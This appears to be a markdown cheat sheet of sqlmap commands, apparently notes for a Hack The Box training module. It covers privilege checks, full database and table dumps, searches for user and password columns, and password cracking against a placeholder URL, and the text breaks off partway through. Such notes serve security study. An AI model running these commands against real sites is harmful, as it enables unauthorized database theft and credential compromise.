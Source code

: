 ### Content 
* [[#Database Enumeration]]
	* [[#Privileges enumeration]]
	* [[#Full DB enumeration]]
	* [[#Table enumeration]]
	* [[#Searching for data]]
	* [[#Password Enumeration and Cracking]] 
* [[#Anti-Virus bypass techniques]]
* [[#OS Exploitation]]
	* [[#File Read/Write]]
	* [[#OS Command Execution]]
* [[#HTB module answers]]
---
## Database Enumeration
#### Privileges enumeration
``` bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
#### Full DB enumeration
``` bash
# Retrieve all tables inside the database
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs -D testdb
# DB schema enumeration (retrieve the structure of all of the tables)
sqlmap -u "http://www.example.com/?id=1" --schema
```
#### Table enumeration
``` bash
# Retrieve tabele names from testdb database
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
# Retrieve table content
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
# Retrieve specific columns from the table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
# Specify how many entries will be dumped from the table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
# Conditional Enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
#### Searching for data
``` bash
# Search for a table that has user on its name
sqlmap -u "http://www.example.com/?id=1" --search -T user
# Search for a column that has pass on its name
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
#### Password Enumeration and Cracking
* Crack passwords inside a specific table

 `sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users`
* DB Users Password Enumeration and Cracking
